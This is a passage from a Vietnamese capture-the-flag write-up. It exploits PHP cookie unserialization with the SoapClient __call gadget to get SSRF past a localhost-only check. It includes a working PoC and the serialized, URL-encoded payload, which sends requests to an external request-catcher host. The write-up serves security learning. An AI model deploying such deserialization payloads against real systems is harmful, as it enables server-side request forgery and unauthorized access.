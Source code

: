 
Như vậy để lấy `master_ball` thì cần pass được cái check `$_SERVER["REMOTE_ADDR"]==="127.0.0.1" or $_SERVER["REMOTE_ADDR"]==="::1"`. Mình có thử dùng header `X-Forwarded-For` và một kĩ thuật khác khá mới là [Abusing HTTP hop-by-hop request headers](https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers) nhưng không thành công. Cũng hợp lý mà vì nếu thành công thì hóa ra cái cookie khả nghi kia lại không để làm gì à :v  
Check trong code thì mình thấy cái cookie được unserialize thật  

![82.PNG](../assets/images/82.PNG)  

Có `unserialize` và cần SSRF 🤔 Do đã từng đọc trong slide [này](https://2018.zeronights.ru/wp-content/uploads/materials/9%20ZN2018%20WV%20-%20PHP%20unserialize.pdf) nên mình nghĩ ngay đến gadget dùng method `__call` của `SoapClient`. Điều kiện để có thể exploit được là:
- Server phải cài extension soap thì mới có class SoapClient
```
apt install php-soap
```
- Ứng dụng phải gọi một method của object unserialize ra mà cái method đó lại không được định nghĩa trong SoapClient. Cái này vì ta trigger bằng `__call` mà định nghĩa của nó như thế [này](https://www.php.net/manual/en/language.oop5.overloading.php#object.call).  
> __call() is triggered when invoking inaccessible methods in an object context.  

Điều kiện này đã được thỏa mãn vì trong code ta có thể gọi `use_poke_ball` qua đoạn này  
```php
if(isset($_POST['poke_ball']) && isset($_POST['pokemon']) && !empty($_POST['pokemon']))
{
    $trainer->use_poke_ball();
}
```
Mình google payload và tham khảo payload ở [đây](https://xz.aliyun.com/t/6050) test thử
```php
<?php
$o = new SoapClient(null,array('location'=>'http://q5ca0.free.beeceptor.com/abc','uri'=>'cc'));
$o->lol();
```
Lưu ý để build payload theo cách này thì máy bạn cũng cài php-soap rồi. Chắc có thể build kiểu khai báo mới class SoapClient nhưng mình chưa thử :v Chạy thử trên local thì mình xác nhận có request gửi lên, serialize và urlencode lại r test trên server xem:  
```php
echo urlencode(serialize($o));
//O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A2%3A%22cc%22%3Bs%3A8%3A%22location%22%3Bs%3A35%3A%22http%3A%2F%2Fq5ca0.free.beeceptor.com%2Fabc%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```
